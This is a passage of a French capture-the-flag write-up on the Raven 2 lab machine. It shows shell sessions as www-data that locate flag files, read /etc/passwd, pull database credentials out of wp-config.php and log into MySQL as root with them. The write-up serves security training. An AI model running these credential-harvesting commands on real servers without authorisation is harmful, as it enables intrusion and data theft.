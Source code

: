 Tout comme lors du premier challenge Raven, le fichier /etc/passwd témoigne de l'existence d'un deuxième utilisateur potentiellement intéressant : steven. D'autre part, le fichier de configuration wp-config.php nous donne le sésame de la base de données présente sur le serveur ; ça tombe bien, c'est le même que Raven: 1. Enfin, la recherche du mot-clé _flag_ sur le serveur a été concluante : les deuxième et troisième flags du CTF ont été (re)trouvés.

```console
www-data@Raven:/var/www/html/vendor$ find / -type f -name "*flag*" 2>/dev/null
<l/vendor$ find / -type f -name "*flag*" 2>/dev/null                         
/proc/kpageflags
/proc/sys/kernel/acpi_video_flags
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag-2x.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag.png
/var/www/flag2.txt
--snip--

www-data@Raven:/var/www/html/vendor$ tail -n5 /etc/passwd
tail -n5 /etc/passwd
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
smmta:x:108:114:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:109:115:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh

www-data@Raven:/var/www/html/vendor$ cat /var/www/html/wordpress/wp-config.php | grep DB
<l/vendor$ cat /var/www/html/wordpress/wp-config.php | grep DB               
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
```

On se connecte ainsi avec les identifiants trouvés, et on récupère le contenu de la table wp_users.

```console
www-data@Raven:/var/www/html/vendor$ mysql -u root -p
mysql -u root -p
Enter password: R@v3nSecurity

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 37
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.01 sec)
```